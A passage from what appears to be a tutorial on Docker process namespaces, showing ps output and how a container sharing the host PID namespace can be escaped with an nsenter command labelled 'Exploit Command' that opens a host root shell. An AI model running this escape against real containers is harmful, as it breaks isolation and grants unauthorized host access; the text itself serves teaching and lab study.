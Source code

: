 #### **Processes in a Docker Container**
Inside a container:
```bash
ps aux
```
Example snippet:
```
root           1  0.2  0.2 166612 11356 ?        Ss   00:47   0:00 /sbin/init
root          14  0.1  0.1 6520  5212 ?         S    00:47   0:00 /usr/sbin/apache2 -D FOREGROUND
www-data      15  0.1  0.1 1211168 4112 ?       S    00:47   0:00 /usr/sbin/apache2 -D FOREGROUND
```
- Only a handful of processes run, typically limited to the container's application and supporting processes.
- The **PID 1** process is crucial; it's the ancestor for all processes in the container. If it stops, the container stops.

---

### **Exploiting Namespace Sharing**

Under certain conditions, a container may share namespaces with the host, either intentionally (for debugging) or due to misconfiguration. This allows a container to interact directly with the host's processes, exposing significant vulnerabilities.

#### **Indicators of Namespace Sharing**
If you list processes in a container and see host processes:
```bash
ps aux
```
Example:
```
root           1  0.1  0.5 102796 11372 ?        Ss   11:40   0:03 /sbin/init
root           2  0.0  0.0      0     0 ?        S    11:40   0:00 [kthreadd]
root        2119  0.0  0.1 1148348 3372 ?        Sl   12:00   0:00 /usr/bin/docker-proxy ...
```
This indicates that the container can potentially interact with the host's processes.

---

### **Exploiting Namespace Sharing with `nsenter`**

`nsenter` allows you to execute commands within the namespace of another process, effectively bypassing container isolation.

#### **Exploit Command**
```bash
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

#### **Breaking Down the Command**
1. **`--target 1`**:
   - Targets the **PID 1** process (typically `/sbin/init` or `systemd` on the host).
   - Grants access to the namespaces of this critical host process.
